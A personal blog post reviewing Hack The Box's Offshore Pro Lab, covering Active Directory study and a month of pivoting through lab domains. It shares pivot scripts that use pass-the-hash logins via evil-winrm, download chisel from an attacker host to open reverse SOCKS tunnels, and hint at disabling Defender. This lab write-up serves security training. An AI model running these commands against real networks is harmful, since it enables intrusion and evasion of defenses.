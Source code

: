 ```yaml
---
title: Offshore Review
layout: single
categories: [blog]
permalink: /:categories/:year/:month/:day/:title/
classes: wide
toc: true
show_date: true
excerpt: "My journey through HTB's Offshore Pro Lab!"
---
```


# Intro

December was gonna be another month of lockdown at home without much to do, so after a friend pwned it, and some nice troll from the InfoSec Prep discord started it, I decided to follow suit and to dedicate the month to [Offshore](https://www.hackthebox.eu/home/labs/pro/view/2)! Unfortunately I was a bit impatient, bought the lab access on the 1st of December at midnight, turned out that they had a 50% discount from the 1st of December, which was rolled out during the day, so missed that 😅

# Getting up to speed with Active Directory

I had dedicated the last 2 weeks of November to get up to speed with Active Directory and the attacks on it, I used [Attacking and Defending Directory](https://www.pentesteracademy.com/course?id=47) from PentesterAcademy (which is what comes bundled up with CRTP), the AD section of Heath Adam's Practical Ethical Hacking Udemy [course](https://www.udemy.com/course/practical-ethical-hacking/), and various blog posts about specific attacks I found after googling around a bit. Overall it was very much needed, as my first and last interaction with AD was with the HTB Forest box, which I had done while it was active, but with way too many hints, and without understanding what I was doing. Putting words in my head behind how Kerberos works, what kerberoasting or asreproasting is, how to get golden/silver ticket, etc helped a lot understanding the basics.

I even made my own little AD lab first on Azure, then at home, to follow along some attacks on Heath Adams' course and to experiment a bit. Some resources for that [here](https://csenox.github.io/active-directory/2020/10/07/AD-Lab/), [here](https://medium.com/@vartaisecurity/lab-building-guide-virtual-active-directory-5f0d0c8eb907), [here](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f), [here](https://medium.com/swlh/building-an-active-directory-lab-part-1a-automatedlab-fc2399ebe5be), [here](https://social.technet.microsoft.com/wiki/contents/articles/36438.windows-server-2016-build-a-windows-domain-lab-at-home-for-free.aspx), and [here](https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/).

I decided to take the opportunity to learn some new tools, so I set up [Obsidian](https://obsidian.md/) for note taking, and [Covenant](https://github.com/cobbr/Covenant) as a C2. Spoiler, I ended up using more often metasploit than covenant as a C2 haha! Also set up a [Commando VM](https://github.com/fireeye/commando-vm) that could access my covenant server running on my Parrot machine, ended up doing everything from Parrot...

# Week 1: Baby steps

Armed with my new found AD knowledge, I started Offshore... and didn't see any AD attacks for a while 😅 There was some web attacks, a first pivot using SSH, some looking around making lots of noise (a blue teamer in charge of the offshore domains would have been able to run circles around me :P). But making friends along the way especially in the HTB discord server, we got together for some challenges, and I was at 25% at the end of my first week, on track to finish by Christmas!

# Week 2: Pivoting...

The first domain owned, started the pivoting game, and the AD attacks. It took me a few hours to find the best solutions for pivoting through the domains, using this [post](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/) which was very thorough in the many ways a red teamer can pivot through a network, and tired of having to type commands over and over, I decided to script my pivoting, and here's the result: (spoiler free and re-usable)

+ `pivot2.sh` to serve chisel64.exe, pipe the powershell script to evil-winrm, and set the proxychains config for this DC:

```bash
#!/bin/bash

if [ $# -ne 1 ]; then
    echo '-s[tart]/-r[un]'
    exit
fi

sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1080/' /etc/proxychains.conf

if [[ $1 = '-s' ]]; then
    echo '[+] Serving on port 8000...'
    python3 -m http.server 8000 > /dev/null 2>&1 &
    cat pivot2_s.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
else
    cat pivot2_r.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
fi
```

+ `pivot2_s.ps1` to upload and run the chisel client on the DC:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
curl -outf chisel.exe http://10.10.14.XX:8000/chisel64.exe
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot2_r.ps1` to run the chisel client if it's already uploaded:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot3.sh` to kill the HTTP server, launch the chisel server, and change the proxychains config for the new pivot:

```bash
#!/bin/bash

ps -aux | grep http.server | grep 8000 | grep -P '\d+' -o | head -1 | xargs kill 2>&1 > /dev/null
sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1081/' /etc/proxychains.conf
chisel server -p 12345 -reverse
```

You're welcome to steal those short scripts and adapt them for your pivoting needs! As I would get to know, I'd need a few of those to pivot through all the domains, in total 4 pivots!

# Week 3: AD Attacks are yummy

Cross domain and cross forest attacks were kinda new to me but I had a blast learning them! Also, ACLs can hide many juicy things :P Bloodhound was a lot of help in finding out how to abuse some ACLs and trusts, I wish I had used [PowerView](https://exploit.ph/powerview.html) more though and enumerated some stuff manually, would have prevented a lot of VM lagging and crashes because well I had obsidian, covenant, discord, and bloodhound running at the same time... But still learned a lot along the way, and the 3rd week was the 3rd quarter syndrome a bit, seeing how much work I had done, and seeing I had about the same amount still to do, and Christmas approaches...

# Week 4: Flag hunt

Total domain pwnage! I had owned all offshore domains... and was still missing a few flags. So on the enumeration hunt I went, trying to find some hidden flags, and turns out one of those was actually from a challenge that had been removed! Thanks to Ippsec for the help taking care of that!

24th of December, 3 PM, all domain flags in the pocket, getting ready for Christmas cooking... and still lacking one linux machine! This one turned up to be a bit of a closed beast, but was a very nice programming challenge, and I enjoyed writing the script to get the privesc on it, but that was on the 25th. So in the end Offshore completed, just on Christmas day :D And a nice certificate as a gift!

![Offshore Certificate]({{site.url}}/blog/assets/images/offshore-certificate.png)

# Review

Overall I learned during my Offshore journey, some challenges were frustrating, some required a bit of help, I won't hide it, I made good friends along the way, and I'm very happy I could finish it under a month. I would recommend Offshore to all pentesters/hackers who want some more hands-on experience with AD attacks, and pivoting through networks, and who are not shy of googling stuff until it works. Very long but very good experience, looking forward to doing more AD related stuff in the future!

